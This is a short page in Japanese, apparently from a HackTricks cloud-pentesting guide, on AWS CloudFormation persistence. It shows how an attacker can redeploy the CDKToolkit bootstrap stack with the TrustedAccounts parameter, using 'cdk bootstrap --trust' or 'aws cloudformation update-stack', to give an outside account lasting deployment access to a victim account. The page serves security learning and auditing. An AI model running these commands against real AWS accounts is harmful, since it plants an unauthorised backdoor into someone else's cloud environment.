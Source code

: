 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

詳細情報については、次にアクセスしてください：

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDKブートストラップスタック

AWS CDKは、`CDKToolkit`と呼ばれるCFNスタックをデプロイします。このスタックは、外部アカウントが被害者アカウントにCDKプロジェクトをデプロイできるようにするパラメータ`TrustedAccounts`をサポートしています。攻撃者は、AWS cliを使用してパラメータでスタックを再デプロイするか、AWS CDK cliを使用して、被害者アカウントへの無期限のアクセスを自分に付与するためにこれを悪用できます。
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
